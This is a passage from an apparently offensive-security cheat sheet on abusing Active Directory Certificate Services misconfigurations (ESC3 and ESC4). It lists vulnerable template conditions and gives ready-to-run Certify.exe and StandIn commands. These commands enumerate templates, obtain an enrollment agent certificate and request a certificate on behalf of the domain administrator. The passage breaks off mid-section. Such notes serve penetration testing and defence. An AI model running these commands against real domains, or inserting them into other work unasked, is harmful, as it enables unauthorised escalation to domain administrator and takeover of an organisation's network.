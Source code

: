 <br>

### <a name="23">2.3 &nbsp;&nbsp; ESC3


Template 1: Provides Enrollment Agent Certificate

- Certificate Request Agent EKU --> 1.3.6.1.4.1.311.20.2.1 is enabled.

- Enrollment Rights are enabled for a user that we control.

Template 2: Allows Enrollment Agent Certificate to use on-behalf-of

- Client Authentication EKU --> 1.3.6.1.5.5.7.3.2 is enabled.

- Application Policy Issuance Requirement with Authorized Signatures Required enabled and set to 1

- Certificate Request Agent EKU enabled.

- Enrollment Rights are enabled for a user that we control.

Enumeration:

```
C:\Tools\Certify.exe find
```

Enroll in template with Certificate Request Agent EKU set (TEMPLATE_NAME) to receive an Enrollment Agent Certificate:

```
C:\Tools\Certify.exe request /ca:CA_NAME /template:TEMPLATE_NAME /user:USER /domain:DOMAIN
```

Use the Enrollment Agent certificate to enroll in a template (TEMPLATE_NAME_2) on behalf of another user:

```
C:\Tools\Certify.exe request /ca:CA_NAME /template:TEMPLATE_NAME_2 /onbehalfof:DOMAIN\administrator /enrollcert:C:\Certs\esc3-enrollmentAgent.pfx /enrollcertpw:PASSWORD /domain:DOMAIN
```

<br>

### <a name="24">2.4 &nbsp;&nbsp; ESC4

Condition: 

- Certificate with overly permissive ACLs (Owner, FullControl, WriteOwner, WriteDacl, WriteProperty) allow to modify settings -> Exploit ESC1, ESC2, ESC3

Enumeration:

```
C:\Tools\Certify.exe find /templates
C:\Tools\Certify.exe pkiobjects
C:\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter TEMPLATE_NAME
C:\Tools\CertifyKit.exe find /templates
```

Enable SmartCardLogon EKU instead of the Client Authentication EKU:
